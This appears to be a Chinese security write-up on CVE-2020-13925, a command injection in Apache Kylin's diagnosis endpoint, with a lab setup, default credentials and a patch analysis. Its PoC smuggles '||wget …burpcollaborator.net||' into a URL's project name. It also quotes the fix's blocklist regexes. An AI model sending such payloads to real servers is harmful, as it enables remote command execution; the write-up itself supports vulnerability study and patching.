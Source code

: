 # CVE-2020-13925 Apache Kylin命令注入漏洞

## 漏洞简介


### 简要说明


Apache Kylin 是一个大数据的平台


### 影响版本


- 2.3.0, 2.3.1, 2.3.2,
- 2.4.0, 2.4.1,
- 2.5.0, 2.5.1, 2.5.2,
- 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6,
- 3.0.0-alpha, 3.0.0-alpha2,3.0.0-beta, 3.0.0, 3.0.1 3.0.2



Users of all previous versions after 2.3 **should upgrade to 3.1.0**.  即修复版本: 3.1.0
### 漏洞利用条件


- 需要有账号能够登陆 WEB 系统。初始用户名和密码是 `ADMIN/KYLIN`
## 漏洞复现
### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.1（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。
```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
```


### 漏洞验证PoC


```python
原始请求：
http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```


### 复现步骤


访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595237527265-6ab31fff-3427-4f92-8681-26b979bdb059.png#align=left&display=inline&height=855&margin=%5Bobject%20Object%5D&name=image.png&originHeight=855&originWidth=1635&size=159200&status=done&style=none&width=1635)
即将项目名称“learn_kylin”替换为如上payload访问即可。


![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595241435603-6f28849f-0dcf-40dc-82cc-4f61632adec6.png#align=left&display=inline&height=897&margin=%5Bobject%20Object%5D&name=image.png&originHeight=897&originWidth=3067&size=390464&status=done&style=none&width=3067)
## 漏洞分析


### 定位漏洞代码
[https://github.com/apache/kylin/tree/kylin-3.0.2/server-base](https://github.com/apache/kylin/tree/kylin-3.0.2/server-base)


漏洞代码位置：
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595297956770-d8f291a5-f98e-494b-bf37-134694f465ca.png#align=left&display=inline&height=801&margin=%5Bobject%20Object%5D&name=image.png&originHeight=801&originWidth=1217&size=180439&status=done&style=none&width=1217)
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298124452-6521031c-098c-435c-a09b-0a8e0327d527.png#align=left&display=inline&height=803&margin=%5Bobject%20Object%5D&name=image.png&originHeight=803&originWidth=1328&size=212857&status=done&style=none&width=1328)
[https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java](https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298194052-8fb07702-c380-43cb-bf8e-1644a858c46f.png#align=left&display=inline&height=593&margin=%5Bobject%20Object%5D&name=image.png&originHeight=593&originWidth=1199&size=107450&status=done&style=none&width=1199)
**![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298328411-56e2e7ca-90de-4cfc-acd1-fcef0ae5391f.png#align=left&display=inline&height=803&margin=%5Bobject%20Object%5D&name=image.png&originHeight=803&originWidth=1251&size=162633&status=done&style=none&width=1251)**
### 修复方案


对比3.0.2和3.1.0两个版本的代码：
src\main\java\org\apache\kylin\rest\controller\DiagnosisController.java
![Snipaste_2020-07-21_10-00-00.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595296840495-653ae06a-2571-48cd-ae7e-92cff1304692.png#align=left&display=inline&height=238&margin=%5Bobject%20Object%5D&name=Snipaste_2020-07-21_10-00-00.png&originHeight=238&originWidth=1873&size=48968&status=done&style=none&width=1873)


过滤代码在kylin-kylin-3.1.0\kylin-kylin-3.1.0\core-common\src\main\java\org\apache\kylin\common\util\CliCommandExecutor.java中，采用了黑名单方式过滤。
```java

    public static final String COMMAND_BLOCK_LIST = "[ &`>|{}()$;\\#~!+*\\\\]+";
    public static final String COMMAND_WHITE_LIST = "[^\\w%,@/:=?.\"\\[\\]]";
    public static final String HIVE_BLOCK_LIST = "[ <>()$;\\-#!+*\"'/=%@]+";


    /**
     * <pre>
     * Check parameter for preventing command injection, replace illegal character into empty character.
     *
     * Note:
     * 1. Whitespace is also refused because parameter is a single word, should not contains it
     * 2. Some character may be illegal but still be accepted because commandParameter maybe a URI/path expression,
     *     you may check "Character part" in https://docs.oracle.com/javase/8/docs/api/java/net/URI.html,
     *     here is the character which is not banned.
     *
     *     1. dot .
     *     2. slash /
     *     3. colon :
     *     4. equal =
     *     5. ?
     *     6. @
     *     7. bracket []
     *     8. comma ,
     *     9. %
     * </pre>
     */
    public static String checkParameter(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_BLOCK_LIST);
    }

    public static String checkParameterWhiteList(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_WHITE_LIST);
    }

    public static String checkHiveProperty(String hiveProperty) {
        return checkParameter(hiveProperty, HIVE_BLOCK_LIST);
    }

    private static String checkParameter(String commandParameter, String rex) {
        String repaired = commandParameter.replaceAll(rex, "");
        if (repaired.length() != commandParameter.length()) {
            logger.warn("Detected illegal character in command {} by {} , replace it to {}.", commandParameter, rex, repaired);
        }
        return repaired;
    }
```


命令注入常用的连接符 ||  && 都被过滤了，这里甚至过滤了空格，找不到绕过的方法。
## 参考链接
[https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ](https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ)


